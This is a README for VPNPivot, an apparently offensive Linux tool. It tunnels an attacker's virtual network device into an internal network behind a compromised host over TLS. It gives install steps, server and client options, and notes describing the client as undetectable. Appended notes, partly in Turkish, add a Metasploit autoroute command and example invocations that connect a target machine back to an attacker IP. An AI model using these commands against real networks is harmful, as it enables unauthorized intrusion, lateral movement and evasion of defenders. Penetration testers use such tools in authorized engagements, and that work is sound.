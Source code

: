 ## VPN Pivot:

Sometime we do external penetration testing and when we compromise the remote target we would like to explore the internal network behind and getting such compromise like owning Active directory, accessing shared files, conducting MITM attacks ... etc.
There are many techniques around like port forwarding, socks4 ..., but each one has its pros and cons. 
this is the reason why VPN pivoting techniques is out, it solves all the problems encountered by using both of the techniques mentioned above. It lets you interact with internal networks that are prevented by firewalls, NATs... etc.


This is an implementation of **VPN pivoting** technique in Linux using pure low-level sockets within tap device.
It creates a fully encrypted tunnel using a SSL/TLS between the target machine and the attacker.

### How it works:
VPN Pivot sends and receive a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host.
The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured.

### Installation :
#### Arch Linux
```
yaourt -S vpnpivot-git
```
#### Linux
The installation is pretty straightforward, just type the following commands:
```bash
root@pwnies:~# git clone https://github.com/0x36/VPNPivot.git
root@pwnies:~# cd VPNPivot
root@pwnies:~/VPNPivot# ./autogen.sh
root@pwnies:~/VPNPivot# ./configure
root@pwnies:~/VPNPivot# make && make install
```

### VPN Server (pivots):

The VPNPivot server must be run in the attacker machine, it creates a virtual device (tap) with the possibility to change MAC (that seems fine for spoofing and Mac switching), IP address, MTU and also the owner of the interface.
The TAP devices interacts with the targets machine, it sends/receives raw Ethernet frame.
Once the attacker get a successfully tunnel connection, the tap device can interacts with the DHCP server of the internal hacked network, receives/send broadcast packets, and also IP addresses reuse.

Working with **pivots** is very easy, you only need to know what does each option:
```bash
root@pwnies:~/VPNPivot# ./src/pivots -h
 __      _______  _   _ _____ _            _ 
 \ \    / /  __ \| \ | |  __ (_)          | |  
  \ \  / /| |__) |  \| | |__) |__   _____ | |_ 
   \ \/ / |  ___/| . ` |  ___/ \ \ / / _ \| __|
    \  /  | |    | |\  | |   | |\ V / (_) | |_ 
     \/   |_|    |_| \_|_|   |_| \_/ \___/ \__|
                 
VPNPivot server v1.0 by Simo36
  -i  --iface   <device>		Create a non persistent tap device 
  -I  --ifconf  <ip/mask>		Inteface configuration (IP/MASK)
  -p  --port    <port>			Server port listener (default: 12345)
  -m  --mtu     <size>			Virtual devince MTU size (default: 1550)
  -u  --user    <user>			User device owner (OPTIONAL)
  -H  --hw      <MAC>			Set MAC address for the iface
  -C  --cert    <server_cert>   Filename of PEM certificate
  -P  --pkey    <private_key>   Filename of PEM private key
  -v  --verbose					Verbose mode
  -d							Deamonize
root@pwnies:~/VPNPivot# 

```
All the options above are optional, but they worth to be explained even their descriptions are self-explanatory:

* **--iface**  	: the virtual interface name being created (default: is chosen by the kernel).
* **--ifconf** 	: you can put a static IP address within a mask, otherwise, dhclient can be used to get network configuration from the internal hacked network.
* **--port**   	: you can choose any port number (default is :12345)
* **--mtu**    	: it's recommended to not change this and let the pivots handles it!
* **--user**   	: The owner of the device (useless for the moment)
* **--hw** 		: You can put any HW address in format like : AA:BB:CC:DD:EE:FF
* **--cert**	: the certificate file to use for SSL/TLS encryption
* **--pkey**	: the private key file to use for SSL/TLS encryption
* **--verbose**	: make more verbosity
* **-d**		: daemonize pivots


### VPN Client (pivotc):
The VPN Pivot client must be run in the target machine, it creates two socket files, the first as a client for the tunnel and the second for interacting with the device network directly.
It works like we are creating an undetectable tap device which makes it harder to detect.

Working with **pivotc** is easier than the server, you only need to be not confused when you are attempting to make it connect into **pivots** :
```bash
root@pwnies:~/VPNPivot# ./src/pivotc   
Usage : 
./src/pivotc <server IP> <server port> <locale IP> [MTU]
root@pwnies:~/VPNPivot#
```
The options are :
* **server IP** : the IP address of the server (pivots)
* **server port** : the port which the server is listening on
* **locale IP** : the IP address of the network interface connected to the unreachable network.
* **MTU**		: the MUT is optional unless you're changing it in **pivots**

### Case study:
There is nothing better than live demo, this is why I made a video, explaining the basic usage of VPNPivot, and the video is [on youtube](https://www.youtube.com/watch?v=VauxUK3OZnQ).

That's it! enjoy you pwning :-)
Cheers
------------------------------------------------------------
run autoroute -s <subnet> <gatewayolacaksession> : run autoroute -s 192.168.1.20 1

pivotvpn aracinin kullanisi:
./pivots -i <herhangibiradlainterfacetanimla> -p 80 -v 
ornek: ./pivots -i ml0 -p 80 -v

pivotvpn client :
pivotc <kendiipm> <port> <localdekiinterface>
ornek: pivotc 192.168.1.15 80 192.168.2.11
dhclient ml0 ile ip almak
